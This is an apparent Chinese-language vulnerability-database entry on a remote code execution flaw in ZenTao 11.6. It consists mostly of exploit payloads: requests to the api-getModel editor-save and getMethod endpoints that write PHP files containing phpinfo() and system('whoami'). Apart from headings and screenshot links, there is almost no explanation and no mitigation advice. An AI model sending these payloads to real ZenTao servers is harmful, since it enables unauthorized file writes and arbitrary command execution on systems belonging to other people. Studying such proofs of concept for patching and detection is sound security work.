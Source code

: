 ```yaml
---
title: '禅道11.6RCE漏洞'
date: Thu, 17 Sep 2020 01:55:17 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞范围

禅道 11.6

### 漏洞POC

文件写入

### 漏洞范围

禅道 11.6

### 漏洞POC

## 三.远程代码执行漏洞

1）远程代码执行命令phpnifo()；

Payload 1:

http://127.0.0.1/zentaopms/www/api-getModel-editor-save-filePath=1111

POST: fileContent=<?php phpinfo(); ?>

![img](禅道11.6RCE漏洞/20200909170608141.png)

Payload2:

http://127.0.0.1/zentaopms/www/ api-getModel-api-getMethod-filePath=1111/1

POST: fileContent=<?php phpinfo(); ?>

![img](禅道11.6RCE漏洞/20200909170608208.png)

```
2）远程代码执行命令system('whoami');
```

Payload 1:

http://127.0.0.1/zentaopms/www/api-getModel-editor-save-filePath=2222

POST: fileContent=<?php system('whoami'); ?>

![img](禅道11.6RCE漏洞/20200909170608153.png)

Payload 2:

http://127.0.0.1/zentaopms/www/ api-getModel-api-getMethod-filePath=2222/2

POST: fileContent=<?php system('whoami'); ?>

![img](禅道11.6RCE漏洞/20200909170608326.png)

 

